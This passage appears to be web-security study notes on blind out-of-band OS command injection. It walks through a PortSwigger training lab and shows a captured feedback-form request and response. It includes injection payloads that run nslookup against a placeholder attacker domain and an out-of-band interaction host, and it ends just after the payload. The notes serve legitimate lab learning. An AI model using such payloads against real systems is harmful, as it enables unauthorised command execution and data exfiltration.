 

#### Out-of-band techniques

##### DNS lookup

In some cases, we might be able to trigger a network (DNS) lookup and/or outbound HTTP requests to an attacker-controlled server using something like

```
& nslookup kgji2ohoyw.web-attacker.com &
```

??? example "PortSwigger OS Command Injection Lab 4: Blind OS command injection with out-of-band interaction"

	This lab also has a user feedback submission form.
	
	```
	POST /feedback/submit HTTP/1.1
	Host: 0a39006204d02b9e8091e49a0097000a.web-security-academy.net
	User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:141.0) Gecko/20100101 Firefox/141.0
	Accept: */*
	Accept-Language: en-US,en;q=0.5
	Accept-Encoding: gzip, deflate, br, zstd
	Content-Type: application/x-www-form-urlencoded
	Content-Length: 110
	Origin: https://0a39006204d02b9e8091e49a0097000a.web-security-academy.net
	Connection: keep-alive
	Referer: https://0a39006204d02b9e8091e49a0097000a.web-security-academy.net/feedback
	Cookie: session=1McxLb2lWaNaBFGd9uyodxWSUupAnm83
	Sec-Fetch-Dest: empty
	Sec-Fetch-Mode: cors
	Sec-Fetch-Site: same-origin
	X-PwnFox-Color: magenta
	Priority: u=0
	
	csrf=xNsEm8VcnAybNoHTgWTJY7MqFygRJRi8&name=Tester&email=tester%40test.com&subject=Testing&message=test+message
	```
	
	```
	HTTP/1.1 200 OK
	Content-Type: application/json; charset=utf-8
	X-Frame-Options: SAMEORIGIN
	Connection: close
	Content-Length: 2
	
	{}
	```
	
	I'm sending the following payload in the email field
	
	```
	&nslookup https://gbm3awvusa4mhpmkcwqf4pe2rpnsbaz3v.oast.site&
	```
	